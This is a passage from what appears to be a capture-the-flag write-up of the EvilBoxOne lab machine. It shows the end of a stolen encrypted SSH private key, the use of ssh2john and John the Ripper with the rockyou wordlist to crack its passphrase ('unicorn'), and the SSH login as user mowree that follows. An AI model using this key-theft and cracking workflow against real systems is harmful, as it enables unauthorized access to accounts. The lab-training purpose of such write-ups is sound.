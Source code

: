 ```bash
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----

```

Great. We can read the private key. Now we can use this key to login via ssh as `mowree`. But the key is encrypted. Let's decrypt it using `JohnTheRipper`. We can use a module of `JTR` called `ssh2john`. what `ssh2john` does is it converts the private key into a hash which can then be cracked by `JTR` using a dictionary attack. Let's use `ssh2john` to convert the key into a hash and store it in a file :

```python
python3 ssh2john.py id_rsa > hash
```

The hash has been stored in the `hash` directory, we can know crack the hash using `JohnTheRipper` as follows : 

```bash 
john --wordlist=/opt/wordlists/rockyou.txt hash
```

### Output:

```bash
Loading default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (mowree.key)
```

We have cracked the password for the encrypted key file. The password is `unicorn`.
Now, let's login using the key via ssh as `mowree`

```bash
ssh -i id_rsa mowree@192.168.211.212 
Enter passphrase for key 'id_rsa': unicorn
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$
```
